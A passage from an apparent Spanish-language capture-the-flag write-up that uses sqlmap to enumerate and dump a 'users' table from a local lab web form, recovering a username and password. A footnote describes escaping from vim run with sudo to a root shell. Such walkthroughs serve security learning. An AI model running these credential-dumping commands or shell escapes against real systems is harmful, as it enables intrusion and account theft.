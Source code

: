 ```bash
[20:20:43] [INFO] retrieved: 'username'
[20:20:43] [INFO] retrieved: 'varchar(30)'
[20:20:43] [INFO] retrieved: 'passwd'
[20:20:43] [INFO] retrieved: 'varchar(30)'
Database: register
Table: users
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| passwd   | varchar(30) |
| username | varchar(30) |
+----------+-------------+

[20:20:43] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/kali/.local/share/sqlmap/output/results-09072025_0820pm.csv'

[*] ending @ 20:20:43 /2025-09-07/
```
Ya por último sería acceder a los datos de las dos columnas que hemos encontrado así que ejecutamos: 
```bash
> sqlmap -u http://172.17.0.2 --forms -D register -T users -C passwd,username --dump --batch
[20:22:38] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[20:22:38] [INFO] fetching entries of column(s) 'passwd,username' for table 'users' in database 'register'
[20:22:38] [INFO] retrieved: 'KJSDFG789FGSDF78'
[20:22:38] [INFO] retrieved: 'dylan'
Database: register
Table: users
[1 entry]
+------------------+----------+
| passwd           | username |
+------------------+----------+
| KJSDFG789FGSDF78 | dylan    |
+------------------+----------+

[20:22:38] [INFO] table 'register.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/172.17.0.2/dump/register/users.csv'
[20:22:38] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/kali/.local/share/sqlmap/output/results-09072025_0822pm.csv'

[*] ending @ 20:22:38 /2025-09-07/
```
* Con --dump volcamos la información de las columnas que acabamos de inyectar.

Vemos que nos ha devuelto un usuario *dylan* y una contraseña *KJSDFG789FGSDF78* así que lo probaremos en el formulario web a ver que sucede.  En este caso nos devuelve a la misma página de *http://172.17.0.2/acceso_valido_dylan.php* que hemos visto en la primera forma de resolver esta máquina así que, a partir de aquí el resto de la máquina será igual.


[^1]: Vim es un editor de texto para sistemas Unix/Linux que, al poder ejecutarse con sudo, se convierte en una vía de escalada de privilegios porque permite lanzar comandos de sistema desde dentro del editor (por ejemplo con :!bash), lo que posibilita abrir una shell con permisos de root.